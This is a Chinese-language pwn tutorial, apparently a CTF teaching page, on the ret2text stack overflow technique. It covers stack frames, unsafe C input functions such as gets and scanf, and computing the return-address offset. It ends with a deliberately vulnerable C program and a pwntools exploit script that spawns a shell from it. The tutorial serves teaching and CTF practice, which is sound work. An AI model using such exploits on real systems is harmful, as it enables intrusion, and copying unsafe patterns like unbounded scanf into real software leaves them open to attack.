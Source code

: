 ```yaml
---
title: "ret2text"
description: ""
lead: ""
date: 2020-10-06T08:48:57+00:00
lastmod: 2020-10-06T08:48:57+00:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
weight: 1
toc: true
---
```


## 0x01 介绍

栈是进程最常用到的内存类型之一，它具有高效和简单的特点，主要用来存储函数调用信息。通常来说32位的程序一个栈单元为4个字节，而64位程序一个栈单元为8个字节，然后多个栈单元可以组成一个 `栈帧` ，栈帧的大小主要看函数信息的多少。一个栈单元通常包括以下几部分：

- 函数的参数，一般有父函数压入栈中
- 函数的返回地址，即函数执行完后ret跳转的地址
- 帧指针，即上一个栈帧的位置
- 局部变量，即函数内部声明的变量

![a5b8d65a6d18aadeec8932e39c376e6e](images/a5b8d65a6d18aadeec8932e39c376e6e.png)  

栈有三大很重要的作用，同时也体现在栈帧结构里面了：

1. 保存函数的局部变量
2. 函数调用时传递参数
3. 保存函数返回后的地址

而我们所有的栈溢出基本都是围绕着三大作用在进行，包括这里的ret2text题型。这种题型比较简单，它主要利用的是第三大功能，即函数返回地址，我们可以来看一个简单的程序的汇编代码

```cpp
void main() {
    int a = 1;
    int b = 2;
}
// gcc -m32 test.c -o test -fno-pic -fno-stack-protector -no-pie
```

生成的汇编代码为

```c
080483db <main>:
 80483db:       55                      push   ebp
 80483dc:       89 e5                   mov    ebp,esp
 80483de:       83 ec 10                sub    esp,0x10
 80483e1:       c7 45 fc 01 00 00 00    mov    DWORD PTR [ebp-0x4],0x1
 80483e8:       c7 45 f8 02 00 00 00    mov    DWORD PTR [ebp-0x8],0x2
 80483ef:       90                      nop
 80483f0:       c9                      leave  
 80483f1:       c3                      ret 
```

主要关注函数序言和函数尾声，在进入main函数之前，已经由父函数将main函数的返回地址给压入栈中，接着通过函数序言将帧指针压入栈中，并将帧指针的地址赋值给ebp，经过函数体后则进入函数尾声，尾声主要依靠 `leave` 指令，该指令相当于 `mov esp, ebp;pop ebp` ，当执行完该指令后当前栈顶就变为了main函数的返回地址，而 `ret` 指令的作用是跳转到当前栈顶存储的地址处继续执行（即修改eip为当前栈顶存储的那个值），这里也就是main函数的返回地址。

![a5821d0d5527947c6adb93598fea8cc2](images/a5821d0d5527947c6adb93598fea8cc2.png)  

而ret2text顾名思义，就是控制 `ret` 指令跳转的地址（即函数返回地址）为程序里现有的 `text` 段代码，以达到RCE的过程。至于如何将函数返回地址给修改就需要设计到核心理念 `溢出` ，超过容器本身大小的操作就叫溢出。对于C语言来说，每个变量的大小都是固定的（堆以外），学过的都知道C语言不允许动态设置数组的大小，只能是固定值，例如 `char a[i]` 就是错误的。这时候C语言里有些函数就会变得非常危险，这些危险函数更像是面对人而言并非对程序，比如 `gets` 函数，它是一个输入函数，可以将你输入的内容存进数组当中，并且只有当人输入 `\n` 回车的时候才会截断输入，这样的截断对人来说是合理的，但是对于数组来说一点都不合理，对于数组来说应该是不大于数组大小的输入都是合理的，当你的输入超过数组大小则应该截断。可以 `gets` 函数并没有这么智能，也就是我们可以对该数组进行溢出的操作。

常见的危险函数有：

- `gets` 函数，遇到 `\n` 截断，不保留 `\n` 字符串后面添加 `\x00`
- `fgets` 函数，遇到 `\n` 截断，保留 `\n` 并添加 `\x00`
- `scanf` 函数 `%s` 格式化字符串输入，遇到 `\x09` 、 `\x0a` 、 `\x0b` 、 `\x0c` 、 `\x0d` 、 `\x20` 截断，不保留截断字符最后添加 `\x00`
- `sscanf` 函数，和 `scanf` 差不多，多了个 `\x00` 截断
- str类函数（ `strcpy` 、 `strcat` 等）遇到 `\x00` 截断，保留 `\x00`
- `read` 函数，无截断字符，不添加字符

我们之前说过如果你在函数内部声明一个变量，那么这个就是一个局部变量，存储在栈中，而局部变量邻近的位置并不是空，而是一些其他数据，这时候如果我们通过危险函数对这个局部变量进行溢出，那么我们将可以修改其他数据的内容，只要这个溢出的字节数够多，那么我们就可以修改函数返回地址。

而现有的 `text` 段代码的话通常会是 `system("/bin/sh")` 、 `system("$0")` 、 `execve("/bin/sh", 0, 0)` 这种直接获取shell进程的函数调用

![b9b59d14a021e54f814be527a8daedf9](images/b9b59d14a021e54f814be527a8daedf9.png)  

以一个简单的程序来讲具体实现

```c
#include<stdio.h>
#include<stdlib.h>
void hint()
{
    system("$0");
}

int main()
{
    char buf[0x10];
    printf("input: ");
    scanf("%s", buf);
    return 0;
}
// gcc ret2text.c -o ret2text -no-pie -fno-stack-protector
```

做ret2text记住三大步骤：

1. 找溢出点
2. 计算局部变量到函数返回地址的偏移量
3. 找getshell代码片段地址

根据危险函数列表很容易就可以找到溢出点，即scanf输入处

![dc59fe24e49ebcf598ae82f3af98d3d4](images/dc59fe24e49ebcf598ae82f3af98d3d4.png)  

其次计算偏移量，用IDA有个便捷的方法来计算偏移量，双击上图中的输入变量即v4，可以看到下图

![7caa7bd5a950c570800aaaea4993d6d0](images/7caa7bd5a950c570800aaaea4993d6d0.png)  

这里 `var_10` 即变量， `s` 即帧指针，而 `r` 则是函数返回地址，左侧的地址是相对偏移地址，右侧是每个数据占据的字节大小，可以很容易计算出变量到函数返回地址之间有16+8=24字节的偏移量

最后找getshell代码片段

![308e34110a919be37fafd2c1cb7ab18d](images/308e34110a919be37fafd2c1cb7ab18d.png)  

你可以直接用hint函数地址，也可以只用从给system函数传递参数处的指令开始，两者结果是一样的

最后我们就可以编写攻击脚本了

```python
from pwn import*    # 引入pwntools包
o = process("./ret2text")    # 执行ret2text程序并获取其I/O接口
payload = b'a'*24    # 填充变量与函数返回地址的空隙
payload += p64(0x4005d6)    # 0x4005d6是getshell代码片段地址，p64的作用是将地址打包成小端序填入栈单元
o.sendline(payload)    # 发送payload，会在结尾加 '\n'
o.interactive()    # 进入交互模式
```

![2092706e1062c14ccbabe46f32ccf796](images/2092706e1062c14ccbabe46f32ccf796.png)
